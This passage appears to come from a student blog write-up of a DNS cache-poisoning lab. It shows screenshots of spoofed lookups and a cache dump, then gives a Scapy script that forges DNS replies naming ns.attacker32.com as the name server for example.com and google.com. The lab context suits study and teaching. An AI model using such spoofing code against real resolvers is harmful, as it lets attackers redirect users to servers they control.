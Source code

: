 ***python program to poison dns cache***

![spoof-ns-code](https://github.com/iukadike/iukadike.github.io/assets/58455326/7b48200f-1544-4293-9216-517181964746)

***running dig `www.example.com` from victim machine***

![spoof-ns-victim-1](https://github.com/iukadike/iukadike.github.io/assets/58455326/33a7ecb8-2dcb-4dbf-abeb-58ebf04c0ccc)

we can see from the screen shot that the address `dig` got back for `www.example.com` was `1.2.3.5`. But wait, what happend to `1.2.3.4`? If we revisit the zone file for `example.com`, we will notice that `www` was mapped to `1.2.3.5`. This means our attack is working.

***running dig `love.example.com` from victim machine***

![spoof-ns-victim-2](https://github.com/iukadike/iukadike.github.io/assets/58455326/35a3bc5a-83f5-468a-aef7-9d77b16cbe01)

We can see from the screen shot that the address `dig` got back for `love.example.com` was `1.2.3.6`. Really? So, what happened to `1.2.3.5`? If we revisit the zone file for `example.com`, we will notice that `*` (meaning any not explicitly defined) was mapped to `1.2.3.6`. This means our attack is working.

***the dns cache of the local dns server***
![spoof-ns-cache](https://github.com/iukadike/iukadike.github.io/assets/58455326/7c45622f-6fb3-4bf2-954f-006d4028201d)

Here, after dumping the cache to a file and inspecting it, we can see that the cached address for `www.example.com` was `1.2.3.5` and that of `love.example.com` was `1.2.3.6`, and the name server for `example.com` was cached.

<br>

### Spoofing NS Records for Another Domain
Excited by the success of the above, we can try to see if we can poison the cache of the DNS server with additional resource records in the authority section.

```python
#!/usr/bin/env python3
from scapy.all import *
import sys

NS_NAME = "example.com"

def spoof_dns(pkt):
    if NS_NAME in pkt[DNS].qd.qname.decode():
        print(pkt.sprintf("{DNS: %IP.src% --> %IP.dst%: %DNS.id%}"))
        
        # Create an IP object
        ip = IP(src = pkt[IP].dst, dst = pkt[IP].src)
        
        # Create a UDP object
        udp = UDP(sport = pkt[UDP].dport, dport = pkt[UDP].sport) 
            
        # Create an authority record
        nssec1 = DNSRR(rrname = 'example.com', type = 'NS',
            ttl = 1024, rdata = 'ns.attacker32.com')
        nssec2 = DNSRR(rrname = 'google.com', type = 'NS',
            ttl = 1024, rdata = 'ns.attacker32.com')
            
        # Create a DNS object 
        dns = DNS(id = pkt[DNS].id,
            rd = 0, qr = 1, qdcount = 1, ancount = 1, nscount = 2,
            qd = pkt[DNS].qd, ns = nssec1 / nssec2) 
        
        # Send the spoofed DNS packet
        send(ip / udp / dns, verbose=0) 

myFilter = "udp port 53 && src host 10.9.0.53 && (not ether host 02:42:82:ce:39:30)"
```